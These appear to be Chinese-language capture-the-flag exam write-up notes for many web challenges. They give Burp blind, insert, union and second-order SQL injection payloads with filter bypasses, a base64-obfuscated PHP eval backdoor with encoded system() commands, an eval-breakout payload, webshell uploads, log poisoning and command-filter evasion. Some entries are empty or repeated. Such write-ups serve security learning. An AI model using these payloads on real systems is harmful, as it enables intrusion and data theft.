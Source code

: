 [嘤嘤嘤]timesql #SQL注入漏洞 时间/盲注
题名写了timesql但是测试直接异或盲注他回显不一致，就用异或盲注，服务器太烂了，用时间盲注时间一大一小看不清结果。
全程用bp做
爆数据库名 为hazel
```
username=admin'%20anandd%20subsubstrstr(database()%2c§1§%2c1)%3d'§2§'%20%23&password=114514
```
![[Pasted image 20240327161324.png]]
爆表名长度 为5
```
username=admin'%20anandd%20length((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase()))%20%3d%20§1§%20%23
```
![[Pasted image 20240328190530.png]]
爆表名 为 users
```
username=admin'%20anandd%20subsubstrstr((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§a§'%20%23
```
![[Pasted image 20240328191209.png]]
爆字段名 为 id,username,password
```
username=admin'%20anandd%20subsubstrstr((selselectect%20group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whwhereere%20table_name%3d'users'%20anandd%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§i§'%20%23
```
![[Pasted image 20240328193336.png]]
爆字段(payload列表注意加上flag所需的字符)：
```
admin'%20anandd%20subsubstrstr((selselectect%20group_concat(id%2c%22%3a%22%2cusername%2c%22%3a%22%2cpasswoorrd%2c%22%3a%22)%20frfromom%20hazel.users)%2c§1§%2c1)%20%3d%20'§i§'%20%23
```

| id  | username | password                                    |
| --- | -------- | ------------------------------------------- |
| 0   | admin    | admin666666                                 |
| 1   | hazel    | hazel{d3f3bac6-3fe8-4e5e-8680-40a5b0003799} |

[嘤嘤嘤]insertsql #SQL注入漏洞 
insert注入，查看页面，有上传文章的功能
![[Pasted image 20240329124443.png]]
尝试在标题注入，其显示上传失败，并快速重定向至主页面，但是显示了一瞬间的sql语句，打开BP的intercept,显示出了其使用的sql语句： ^d26139
```
insert into article(title,author,description,content,dateline) values('114514' and 1=2#','114514','114514','114514',1711687035)
```
可以看到除了标题还有4个字段，那就在标题构造注入：
```
114514',database(),user(),'114514',1919810)#
```
去管理文章的页面点击修改我们刚发布的文章，可以看到其回显了数据库名以及用户名：
![[Pasted image 20240329124936.png]]
爆表名 为article,hazel
```
10086',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'10086','10086','1919810')#
```

^1e5e69

![[Pasted image 20240329125252.png]]
爆字段名 为 id,flag_is_here
```
10086',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="hazel"),'10086','10086','1919810')#
```
![[Pasted image 20240329125514.png]]
dump
```
10086',(select flag_is_here from hazel.hazel where id=2),'10086','10086','1919810')#
```

| id  | flag_is_here                                |
| --- | ------------------------------------------- |
| 1   | shuaige                                     |
| 2   | hazel{863184db-8501-49b4-a8c9-96bc10101c72} |

[嘤嘤嘤]成绩单 #SQL注入漏洞 
页面只有一个查询框，查1出成绩，查异常值不出，尝试布尔盲注猜解闭合方式为：单引号闭合
`1' and 1=2 #`
爆数据库名长度 为 5
```
id=1'+and+length(database())%3d§1§%23
```
![[Pasted image 20240329131949.png]]
爆数据库名 为 hazel
```
id=1'+and+substr(database(),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329132535.png]]
爆表名总长度 为 7
```
id=1'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()))%3d§1§%23
```
![[Pasted image 20240329132859.png]]
爆表名 为 fl4g,sc
```
id=1'+and+substr((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329133352.png]]
爆字段长度 为 10
```
id=1'+and+length((select+group_concat(column_name)+from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d'fl4g'))%3d§1§%23
```
![[Pasted image 20240329135041.png]]
dump长度 为42
```
id=1'+and+length((select+*+from+hazel.fl4g))%3d§1§%23
```
dump
```
id=1'+and+substr((select+*+from+hazel.fl4g),§1§,1)%3d'§1§'%23
```
```
hazel{8c4c152d-1aa9-4991-8aac-951ca6e3efa0}
```
[嘤嘤嘤]P1_1
base64加密注入，爆字段数找回显点（让他的不成立）不要用and，页面也不会回显错误，错误就不显示结果
[嘤嘤嘤]P1_2
[嘤嘤嘤]P1_3
```
<?php

@$a = $_POST['Hello'];

if(isset($a)){

@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));

}

?>

Hello

<br>

閫忚繃鐜拌薄鐪嬫湰璐紝涓栫晫寰堢畝鍗曪紒

W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=

[@eval(base64_decode($_POST[z0]));]

z0=system('ls'); --> z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==
```

^bf5f69

[嘤嘤嘤]P1_4
命令执行，
过滤了cat head tail cp mv vi vim
使用grep '\*' ../flag拿flag
[嘤嘤嘤]P1_5
直接禁用JS防止其生成随机数，登录
这题key错的
[嘤嘤嘤]P2_1
sql注入
过滤：
`空格 # union`
绕过：
`/**/ %23 ununionion`
不过只是让读取文件，直接loadfile
[嘤嘤嘤]P2_2
文件上传
直接传带图片头的图片拦截加马改phtml
[嘤嘤嘤]P2_3
文件包含
使用php://filter/read=convert.base64-encode/resource=..key.php
拿到flag
[嘤嘤嘤]P2_4
命令执行
过滤了ls cat，直接定义变量绕过
[嘤嘤嘤]P2_5
日志跳
[嘤嘤嘤]P3_1
二次注入
注册admin'#123，重置密码，改的是admin密码。
[嘤嘤嘤]P3_2
文件上传
很简单只做了文件头过滤，没过滤php，所以不要一上来试phtml，万一php就行呢
[嘤嘤嘤]P3_3
和[[EXAM特供WP#^bf5f69]]P1_3一样的
[嘤嘤嘤]P3_4
代审&命令执行
cmd参数长度小于30执行cmd但不回显。
使用反引号执行命令将其重定向至文件
有admin文件夹及其下的backdoor.php
构造命令超30，使用通配符减小长度。
```
GET /start/vul.php?cmd=echo+"`cat+../a*/*.php`">1.txt
```
[嘤嘤嘤]P3_5
命令执行
过滤了; ls php使用&& 变量 通配符绕过。
[嘤嘤嘤]P4_1
有文章上传功能，是insert注入和[[EXAM特供WP#^d26139]]一样
```
insert into article(title,author,description,content,dateline) values('1'','13123','3131','313',1713177034)
```
[嘤嘤嘤]P4_2
文件上传
直接传图片马
[嘤嘤嘤]P4_3
文件包含，但是没key
[嘤嘤嘤]P4_4
命令执行
```
<?php
error_reporting(0);
include "key4.php";
$a=$_GET["a"];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
?>
```
构造
`");system('ls');//`
闭合strlower,注释后面的
[嘤嘤嘤]P4_5
改cookie，base64加密的名字和直接写cookie里的isadmin
[嘤嘤嘤]P5_1
无
[嘤嘤嘤]P5_2
文件包含
获取日志，useragent传马
[嘤嘤嘤]P5_3
命令执行
过滤了 ；ls cat
使用&& 变量过
[嘤嘤嘤]P5_4
文件上传
直接传图片马
[嘤嘤嘤]P5_5
同上
[嘤嘤嘤]P6_1
sql注入
`http://hazelshishuaige.club:9111/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d67' union select 1,(select group_concat(haha) from hazel.IS_KEY),3,4,5,6 and '1'='1`
过滤了注释符，爆列数得用union select，order by 无回显
[嘤嘤嘤]P6_2
文件上传
过滤了php,MIME头，敏感函数，evalassert等，以及文件头验证
直接传马，成功，不知道为什么php过滤没起作用
[嘤嘤嘤]P6_3
固定后缀00截断超长get都不起作用
直接内网机器挂http，用http协议拿马txt
[嘤嘤嘤]P6_4
挂错了，反序列挂的命令
[嘤嘤嘤]P6_5
失效访问控制
cookie改名字，isadmin
加XFF头本地访问。
[嘤嘤嘤]pte1_055
暴力破解带验证码直接关闭JS拦截此次正确的验证码重复请求
密码123qwe，flag在F1a9.php但是找不到
[嘤嘤嘤]pte1_051
sql注入
过滤了# ；“ -- or
`admin' Or 1=1 Or '1'='1`
拿到f1a9.php
[嘤嘤嘤]pte1_045
日志题，跳
[嘤嘤嘤]pte1_041
sql注入
闭合注释显示正常而and 1=1显示不正常的直接不要and
flag-{bmhbb1bbe71-f818-4743-a418-7a7854a4e42f}
flag错的
[嘤嘤嘤]pte1_025
日志题，跳
[嘤嘤嘤]pte1_fuzz

[嘤嘤嘤]pte1_041
[嘤嘤嘤]pte1_041
[嘤嘤嘤]pte1_041